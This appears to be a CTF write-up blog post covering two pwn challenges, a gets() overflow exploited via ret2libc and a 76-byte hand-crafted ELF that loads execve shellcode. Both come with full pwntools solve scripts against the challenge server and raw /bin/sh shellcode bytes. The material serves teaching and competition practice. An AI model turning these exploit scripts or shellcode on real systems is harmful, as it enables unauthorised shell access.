










This is a National CTF Challenge, might as well put on the blog :?

# Pwn - From The Start

## Introduction 



## Source Code

```c
#include <stdio.h>

__attribute__((constructor)) void init(){
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
}

__attribute__((naked)) void helper(){
    __asm__(
        "pop %rdi\nret\n"
        "pop %rsi\nret\n"
        "pop %rdx\nret\n"
    );
}

int main(){
    init();
    char mem[0x100];
    puts("pwning from the start okay?");
    gets(mem);
    return 0;
}
```

## Summary

Found using `gets` which is `BOF` and there is `RDI` gadget just do `ret2libc`->`ret2system`

## Solution

Given a binary, when decompiled, it finds `BOF` using `gets`. To find the offset, you can directly calculate it from `the total array variable` + `RBP` -> 256 + 8 = 264. We also found the `RDI` gadget, so now we just need to `ret2libc` by calling:
```c
printf(got-addr);
main();
```
So I'll choose `gets` here. After finding the libc leak, we can directly calculate the offset with the base libc using pwntools symbols, which is automatic because we know the leak libc `gets`. Now we just need to `ret2system` to get the shell.



### Solve Script

```python
#!/usr/bin/env python3
from pwn import *
from subprocess import Popen

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chall_patched'
elf = context.binary = ELF(exe, checksec=True)
libc = elf.libc
# libc = './libc.so.6'
# libc = ELF(libc, checksec=False)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = "117.53.46.98", 10000


gdbscript = '''
init-pwndbg
# #set architecture aarch64
# target remote :5000
b *main+66
c
'''.format(**locals())

def initialize(argv=[]):
    global pid
    if args.QEMU:
        if args.GDB:
            return process(["qemu-aarch64", "-g", "5000", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
    elif args.DOCKER:
        p = remote("localhost", 8000)
        time.sleep(1)
        pid = process(["pgrep", "-fx", "./run"]).recvall().strip().decode()
        return p
    elif args.REMOTE:
        context.log_level = 'info'
        return remote(host, port, ssl=False)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    else:
        return process([exe] + argv, aslr=False)

def debug():
    global gdbscript, pid
    if args.QEMU:
        gdb_args = ["tmux", "splitw", "-h", "-p", "65", "gdb"]
        for cmd in [item for line in gdbscript.strip().splitlines() if (item := line.strip())]:
            gdb_args.extend(["-ex", cmd])
        Popen(gdb_args)
    elif args.DOCKER:
        gdbscript = f'''
        init-pwndbg
        set sysroot /proc/{pid}/root
        c
        '''.format(**locals())        
        attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe='chall')
    else:
        attach(io, gdbscript=gdbscript)


# =========================================================
#                         EXPLOITS
# =========================================================
# Stack
def ret2system():
    rop = ROP(libc)
    rop.system(next(libc.search(b'/bin/sh')))
    return rop.chain()


def exploit():
    global io
    io = initialize()
    offset = 264
    rop = ROP(elf)
    rop.puts(elf.got['gets'])
    rop.raw(rop.ret.address)
    rop.main()
    payload = flat({offset: rop.chain()})
    io.sendlineafter("pwning from the start okay?", payload)
    io.recvline()
    gets = u64(io.recvline().strip().ljust(0x8, b'\x00'))
    libc.address = gets - libc.sym['gets']
    log.info("Gets address: %#x", gets)
    log.info("Libc base address: %#x", libc.address)
    payload = flat({offset: ret2system()})
    io.sendlineafter("pwning from the start okay?", payload)

    io.interactive()

if __name__ == '__main__':
    exploit()
```

### Flag

`ACE{
    Don't you notice how
    I get quiet when there's no one else around?
    Me and you and awkward silence
    Don't you dare look at me that way
    I don't need reminders of how you don't feel the same
    Oh, the burning pain
    Listening to you harp on 'bout some new soulmate
    "She's so perfect, " blah, blah, blah
    Oh, how I wish you'll wake up one day
    Run to me, confess your love, at least just let me say
    That when I talk to you, oh, Cupid walks right through
    And shoots an arrow through my heart
    And I sound like a loon, but don't you feel it too?
    Confess I loved you from the start
    What's a girl to do?
    Lying on my bed, staring into the blue
    Unrequited, terrifying
    Love is driving me a bit insane
    Have to get this off my chest
    I'm telling you today
    That when I talk to you, oh, Cupid walks right through
    And shoots an arrow through my heart
    And I sound like a loon, but don't you feel it too?
    Confess I loved you from the start
    Confess I loved you
    Just thinking of you
    I know I've loved you from the start
    }`
    
# Pwn - Sylphiette or Frieren

## Introduction 



## Source Code

```python
#!/usr/bin/python3
import subprocess
import os
import base64

frieren = b"\x7fELF"

fd = os.memfd_create("sylphiette", 0)
sylphiette = base64.b64decode(input("sylphiette vs frieren cantikan mana? ").strip())

assert len(sylphiette) <= 76, "kegedean"
assert frieren == sylphiette[:4], "harus elf yang cantik"

with os.fdopen(fd, "wb", closefd=False) as f: 
    f.write(sylphiette)

try:
    p = subprocess.Popen([f"/proc/{os.getpid()}/fd/{fd}"], shell=False)
    p.wait()
except:
    os.killpg(os.getpid(), 9)
    exit(1)
```

## Summary

Simply create an ELF binary smaller than 77 by calling the `read` syscall and then jumping to the buffer, the buffer input being the `execve` shellcode.

## Solution

Given a chall.py that requests input smaller than 77 and has a header \x7fELF and is in base64. After the input will execute the binary. To meet these requirements requires an understanding of ELF binary. So for the solution starting with having an ELF type, of course I chose 32-bit ELF. But 32-bit ELF requires ELF Header + Program Header -> 52 + 32 = about 84 bytes which does not meet these requirements. Then after 6 hours of research, it turns out that from the first github I found there was a reference to the minimum ELF article that I 🤬 missed on github, I found an article discussing overlapping chunks to create the minimum ELF binary size.






Here I use an ELF binary template size 76 because it is more debugable with gdb. 
```s
BITS 32

            org     0x08048000

ehdr:
            db      0x7F, "ELF"             ; e_ident
            db      1, 1, 1, 0, 0
_start:     pop     eax
            inc     eax
            inc     eax
            pop     ecx            
            jmp     $+0x33
            inc     eax
            dw      2                       ; e_type
            dw      3                       ; e_machine
            dd      1                       ; e_version
            dd      _start                  ; e_entry
            dd      phdr - $$               ; e_phoff
            dd      0                       ; e_shoff
            dd      0                       ; e_flags
            dw      ehdrsize                ; e_ehsize
            dw      phdrsize                ; e_phentsize
phdr:         dd      1                       ; e_phnum       ; p_type
                                            ; e_shentsize
            dd      0                       ; e_shnum       ; p_offset
                                            ; e_shstrndx
ehdrsize      equ     $ - ehdr
            dd      $$                                      ; p_vaddr
            dd      $$                                      ; p_paddr
            dd      filesize                                ; p_filesz
            dd      filesize                                ; p_memsz
            dd      5                                       ; p_flags
            dd      0x1000                                  ; p_align
phdrsize      equ     $ - phdr

filesize      equ     $ - $$
```

After I tried to change the elf binary, it was found that only 1 part of the elf header at offset 0x40 could be changed without damaging the ELF Binary.  So, to keep things short, I came up with the idea of using shellcode that calls
```c
read(0, rwx, rwx);
*(*rwx);
```
The syscall number `read` is 32-bit, so eax = 3 is needed.




Then, to make it shorter, the shellcode can pivot with `jmp $+offset`. I first compiled it using nasm to calculate the offset to ELF binary 0x40. Then, I manually wrote the shellcode at offset 0x40 using printf and dd, where the shellcode would `mov rdx, rcx`, then call the syscall and `jmp rwx`.






For the second shellcode, I used shellcode from exploitdb, which is about 24 bytes.





### Solve Script

```python
#!/usr/bin/env python3
from pwn import *
from subprocess import Popen
# =========================================================
#                          SETUP                         
# =========================================================
exe = './tiny'
# elf = context.binary = ELF(exe, checksec=True)
# libc = elf.libc
# libc = './libc.so.6'
# libc = ELF(libc, checksec=False)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = "117.53.46.98", 12000


gdbscript = '''
init-pwndbg
c
'''.format(**locals())

def initialize(argv=[]):
    global pid
    if args.QEMU:
        if args.GDB:
            return process(["qemu-aarch64", "-g", "5000", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        time.sleep(1)
        pid = process(["pgrep", "-fx", "./run"]).recvall().strip().decode()
        return p
    elif args.REMOTE:
        context.log_level = 'info'
        return remote(host, port, ssl=False)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    else:
        return process([exe] + argv, aslr=False)

def debug():
    global gdbscript, pid
    if args.QEMU:
        gdb_args = ["tmux", "splitw", "-h", "-p", "65", "gdb"]
        for cmd in [item for line in gdbscript.strip().splitlines() if (item := line.strip())]:
            gdb_args.extend(["-ex", cmd])
        Popen(gdb_args)
    elif args.DOCKER:
        gdbscript = f'''
        init-pwndbg
        set sysroot /proc/{pid}/root
        c
        '''.format(**locals())        
        attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe='chall')
    else:
        attach(io, gdbscript=gdbscript)


# =========================================================
#                         EXPLOITS
# =========================================================

def exploit():
    global io
    io = initialize()
    with open("tiny", "rb") as f:
        raw_payload = f.read()
    b64_payload = base64.b64encode(raw_payload)
    io.sendlineafter(b"sylphiette vs frieren cantikan mana? ", b64_payload)
    sleep(1)
    io.send("\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")
    io.interactive()

if __name__ == '__main__':
    exploit()
```

### Flag

`ACE{ya_jelas_cantikan_sylphiette_lah`